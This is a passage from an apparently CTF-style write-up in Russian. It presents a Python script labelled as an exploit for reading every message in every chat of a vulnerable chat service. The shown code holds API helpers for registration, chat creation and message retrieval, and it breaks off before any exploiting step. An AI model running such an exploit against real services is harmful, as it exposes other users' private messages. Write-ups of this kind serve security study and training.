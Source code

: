 Сам уязвимый компонент:

![ScreenShot](screenshots/18.png)

Эксплойт для получения всех существующих сообщений во всех чатах:

```python
import os
import json
import base64
import requests


# Функция для регистрации пользователя
def register(url, username, password):
    result = requests.post(
        f"{url}/api/v1/register", json={"login": username, "password": password}
    )
    return json.loads(result.text)


# Функция для создания чата
def create_chat(url, username, password):
    result = requests.post(
        f"{url}/api/v1/chats",
        auth=(username, password),
    )
    return json.loads(result.text)


# Функция для получения всех чатов
def get_chats(url, username, password):
    result = requests.get(
        f"{url}/api/v1/chats",
        auth=(username, password),
    )
    return json.loads(result.text)["data"]


# Написание сообщения в чат
def add_message(url, username, password, chat_id, message: str):
    result = requests.post(
        f"{url}/api/v1/chats/{chat_id}",
        auth=(username, password),
        json={
            "text": message,
            "direction": True,
        },
    )
    return json.loads(result.text)


# Функция для извлечения данных из чата
def get_messages(url, username, password, chat_id):
    result = requests.get(
        f"{url}/api/v1/chats/{chat_id}",
        auth=(username, password),
```